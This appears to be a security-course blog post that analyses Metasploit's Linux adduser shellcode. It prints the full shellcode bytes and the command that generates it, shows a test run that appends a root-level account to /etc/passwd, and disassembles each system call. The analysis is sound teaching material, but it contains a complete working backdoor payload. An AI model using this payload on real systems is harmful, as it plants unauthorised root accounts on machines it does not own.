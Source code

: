 ```yaml
---
title:  "[SLAE] Assignment 5 - Metasploit Shellcode analysis"
---
```


![Logo](/assets/images/tux-root.png)

## Metasploit Linux adduser shellcode analysis
This post is part of the 5th assignment of the SLAE course and will analyse the Metasploit _`linux/x86/adduser shellcode`_. First let's generate the shellcode: 
```bash
# msfpayload linux/x86/adduser USER=jsmith PASS=ok  C
```

This will generate a payload that will create a new -`root`_ user, with uid and gid equal to 0. 
```c
/*
 * linux/x86/adduser - 93 bytes
 * http://www.metasploit.com
 * VERBOSE=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, USER=jsmith, PASS=ok, SHELL=/bin/sh
 */
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73"
"\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d"
"\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e"
"\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01"
"\x58\xcd\x80";
```

To test it, I've integrated the shellcode into a C skeleton file and run against a Linux box: 
```bash
# cat /etc/passwd | grep jsmith
# ./shellcode
Shellcode Length:  40 bytes
# cat /etc/passwd | grep jsmith
jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh
# su jsmith
# id
uid=0(root) gid=0(root) groups=0(root)
```

As we can see, the new root user was successfully created. Next I continued to disassemble it: 
```bash
$ echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" |ndisasm -b 32 -
```
First the shellcode restores the privileges, in case the running process would have dropped them: 
```asm
00000000  31C9              xor ecx,ecx             ; Effective user id - 0
00000002  89CB              mov ebx,ecx             ; Real user id - 0
00000004  6A46              push byte +0x46         ; sys_setreuid16 syscall number
00000006  58                pop eax                 ; Sets real and effective user id
00000007  CD80              int 0x80                ; Fire the interrupt
```

Next, it will open the /etc/passwd file. The flags for opening the file will be set to 0x00000401: O_WRONLY|O_APPEND. (Note1: the mode for opening the file, which should have been in EDX register, is not specified because it is ignored for O_CREAT flag not specified): 
00000009  6A05              push byte +0x5
0000000B  58                pop eax                 ; Prepare eax for sys_open syscall
0000000C  31C9              xor ecx,ecx             ; Set ecx to 0 
0000000E  51                push ecx                ; Push 0 to act as a null terminator
0000000F  6873737764        push dword 0x64777373   ; 'dwss'
00000014  682F2F7061        push dword 0x61702f2f   ; 'ap//'
00000019  682F657463        push dword 0x6374652f   ; 'cte/'
0000001E  89E3              mov ebx,esp             ; Filename: '/etc//passwd'
00000020  41                inc ecx  
Note2: the open syscall and the parameters can also be easily viewed using strace program: 
?
1
2
3
# strace ./shellcode
. . . 
open("/etc//passwd", O_WRONLY|O_APPEND) = 3 
The next part will write the "jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n" string to it (username and encrypted password): 
00000025  93                xchg eax,ebx
00000026  E824000000        call dword 0x4f
; String starts  here -->
; jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n
0000002B  6A73              push byte +0x73
0000002D  6D                insd
0000002E  6974683A417A2E54  imul esi,[eax+ebp*2+0x3a],dword 0x542e7a41
00000036  4F                dec edi
00000037  53                push ebx
00000038  7267              jc 0xa1
0000003A  724D              jc 0x89
0000003C  36726F            ss jc 0xae
0000003F  3A30              cmp dh,[eax]
00000041  3A30              cmp dh,[eax]
00000043  3A3A              cmp bh,[edx]
00000045  2F                das
00000046  3A2F              cmp ch,[edi]
00000048  62696E            bound ebp,[ecx+0x6e]
0000004B  2F                das
0000004C  7368              jnc 0xb6
0000004E  0A. |--> String ends here
We then have to disassemble the instructions starting after the end of string (easily done in gdb): 
00000051  51                push ecx
00000052  FC                cld
00000053  6A04              push byte +0x4
00000055  58                pop eax         ; sys_write syscall
00000056  CD80              int 0x80
; write(3, "jsmith:Az.TOSrgrM6ro:0:0::/:/bin"..., 36) = 36
Finally the shellcode calls the exit function to cleanly finish execution: 
00000058  6A01              push byte +0x1
0000005A  58                pop eax         ; sys_exit syscall
0000005B  CD80              int 0x80

The complete source files and scripts mentioned in this post can be found in the Git repository:
SLAE

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:        
www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/    
Student ID: SLAE- 449 
Posted by Liviu at 6:50 PM     
Email This
BlogThis!
Share to Twitter
Share to Facebook
Share to Pinterest

Labels: adduser, metasploit, shellcode, SLAE
Reactions: 	
No comments:
Post a Comm
